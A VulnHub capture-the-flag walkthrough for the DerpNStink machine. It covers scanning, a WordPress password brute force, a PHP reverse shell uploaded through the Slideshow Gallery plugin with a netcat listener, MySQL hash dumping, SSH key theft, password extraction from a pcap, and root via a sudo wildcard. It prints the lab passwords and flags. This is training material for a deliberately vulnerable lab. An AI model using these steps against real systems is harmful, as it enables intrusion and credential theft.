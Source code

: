 ```yaml
---
title: "DerpNStink"
date: 2021-05-06T04:57:39+05:30
draft: false
toc: false
images:
tags:
  - VulnHub
  - WordPress
  - MySQL
---
```


## DerpNStink VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- DerpNStink IP: `10.0.2.8` 

#### RustScan + Nmap

- `sudo rustscan -a 10.0.2.8 -- -sS -A`

  ```
  10.0.2.8:21/tcp => vsftpd 3.0.2
  10.0.2.8:22/tcp => OpenSSH 6.6.1p1 
  10.0.2.8:80/tcp => Apache httpd 2.4.7 
  ```

- In HTML source code: 
```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

#### GoBuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.8 -t 60 -x txt
```

```
/weblog        (Status:301) [Size:304] [http://10.0.2.8/weblog/]
/php           (Status:301) [Size:301] [http://10.0.2.8/php/]   
/css           (Status:301) [Size:301] [http://10.0.2.8/css/]   
/js            (Status:301) [Size:300] [http://10.0.2.8/js/]    
/javascript    (Status:301) [Size:308] [http://10.0.2.8/javascript/]
/robots.txt    (Status:200) [Size:53]                                   
/temporary     (Status:301) [Size:307] [http://10.0.2.8/temporary/] 
/server-status (Status:403) [Size:288]
```
- `/weblog` redirected to `http://derpnstink.local/weblog`. So we will need to add it to the hosts file.
- `echo 10.0.2.8 derpnstink.local | tee -a /etc/hosts`
- Then visit `http://derpnstink.local/weblog`.
- Its a WordPress blog. 

---

### Exploitation

```
wpscan --url http://derpnstink.local/weblog -e at -e ap -e u
```

```
WordPress theme in use: twentysixteen
Location: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/
Last Updated: 2021-03-09T00:00:00.000Z
Readme: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/readme.txt
The version is out of date, the latest version is 2.4

Plugin(s) Identified:

slideshow-gallery
Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
Last Updated: 2019-07-12T13:09:00.000Z
The version is out of date, the latest version is 1.6.12
Found By: Urls In Homepage (Passive Detection)
Version: 1.4.6 (100% confidence)
Found By: Readme - Stable Tag (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

User(s) Identified:
- admin
```

- We got a username: `admin`. Now to brute force for password:
```
wpscan --url http://derpnstink.local/weblog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 60
```

```
Valid Combinations Found:
Username: admin, Password: admin
```
- Honestly, I should have just tried `admin:admin` before even running `wpscan` but, oh well.
- Go to `/weblog/wp-admin/` and log in with `admin` : `admin`
- Go to Slideshow, click on one of the available ones, in there, under Choose Image option, select a file to upload. Choose PHP reverse shell file (with IP and port changed to connect back to our Kali VM) and it will be accepted without even changing extension. 
- Or you can use this exploit to upload the shell since we already have user credentials: [WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload](https://www.exploit-db.com/exploits/34681).

```python
python wp_slideshow_exploit.py -t http://derpnstink.local/weblog -u admin -p admin -f php-shell.php
```

- Start a netcat listener: `nc -lvnp 1234`
- Then go back to Slideshow and click on the slideshow that has PHP reverse shell file and we will get a reverse shell as `www-data`. 
- `cd /var/www/html/weblog` and `ls -la` 
- We have read access to `wp-config.php` so `cat wp-config.php` 
```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```
- `mysql -u root -p` => `mysql` 
- `show databases;` 
- `use mysql;` 
- `show tables;` 
- `select * from user;` 
- DerpNStink MySQL Commands:
![DerpNStink MySQL Commands](/imgs/derpnstink_mysql_commands.png)
- Dumping users & passwords from MySQL:
![Dumping Users & Passwords from MySQL](/imgs/derpnstink_mysql_users_passwords.png)

- And we get a few MySQL password hashes. Used [CrackStation](https://crackstation.net/) to crack them: 
```
root = E74858DB86EBA20BC33D0AECAE8A8108C56B17FA = mysql
unclestinky = 9B776AFB479B31E8047026F1185E952DD1E530CB = wedgie57
phpmyadmin = 4ACFE3202A5FF5CF467898FC58AAB1D615029441 = admin
```

- Lets try `unclestinky : wedgie57` on user `stinky`. 
- `su stinky` => `wedgie57` and it works. 
- There is a `ftp` directory in `/stinky` and if we keep going in, there is a `key.txt` file which has `ssh` key for user `stinky` 

```
/home/stinky/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt
```

- But we can also get it from `/home/stinky/.ssh`
- `cd /home/stinky/.ssh` and start a python server with `python3 -m http.server 5959` and then get the `id_rsa` key from `derpnstink.local:5959/id_rsa` using a browser or via `wget`. 
- `chmod 600 id_rsa` and then log in via `ssh`: 
- `ssh -i id_rsa stinky@10.0.2.8` 
- `cd /home/stinky/Desktop && ls -la` 
- `cat flag.txt` 

```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

- `cd /home/stinky/Documents && ls -la` there is a `derpissues.pcap` file. 
- `strings derpissues.pcap` to get the general idea of traffic recorded. 
- There are a few HTTP POST requests in there without SSL/TLS, thus, unencrypted. So we can start looking at them. Or we can `grep` for the username we already have: `mrderp`. I tried it both ways. 
- `strings derpissues.pcap | grep -n mrderp` 
- This gives 7 results but the first one itself reveals the password that was used while creating the account for `mrderp` and the second one reveals it again when it was used for logging in as `mrderp`. 

```
56710:action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+User
57149:log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- The other method is to filter POST requests and to look for passwords in unencrypted/plain text parameters. 
- So to filter the `strings` results for just those POST requests: 
- `strings derpissues.pcap | grep POST` 
- It lists all the POST requests but we can filter out the others that we don't need and focus only on POST requests made to `/weblog/wp-login.php` 
- `strings derpissues.pcap | grep -A 20 "POST /weblog/wp-login.php"` 
- `grep -A 20` to print the next 20 lines that come after the expected result of `grep`. 
- Now there are only three such POST requests and the username and password payload being sent through them is in plain text. 

```
1: log=unclestinky%40derpnstink.local&pwd=wedgie57&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1c3
2: log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```
- We already have `stinky`'s or `unclestinky`'s password: `wedgie57` and now we also have `mrderp`'s password: `derpderpderpderpderpderpderp` 
- `su mrderp` => `derpderpderpderpderpderpderp` and we are now logged in as `mrderp`! 
- `mrderp` : `derpderpderpderpderpderpderp` 

---

### Privilege Escalation

- `sudo -l` => `derpderpderpderpderpderpderp` 
```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```
- If you `cd /home/mrderp/Desktop/ && ls`, there is a `helpdesk.log` file which has a pastebin link inside: `https://pastebin.com/RzK9WfGw`. This pastebin also tells us the same thing that `sudo -l` says. 
- So back to privilege escalation, there is no `/home/mrderp/binaries/` directory so lets create one. 
- `cd /home/mrderp` and then `mkdir binaries && cd binaries` 
- Then create a bash script (any script/executable will work here) that we can execute with `sudo`. 
- `touch derpy.sh` 
- `echo /bin/bash > derpy.sh` 
- Then `chmod +x derpy.sh` and then execute it with: 
`sudo ./derpy.sh` and we are now `root`! 
- `whoami` => `root` 
- `cd /root/Desktop && ls -la` 
- `cat flag.txt` 
```
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```



<!-- ### Possible Kernel Exploit

- `uname -a` 
```
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
- Kernel exploit could be possible. Try kernel exploit later. 
 -->

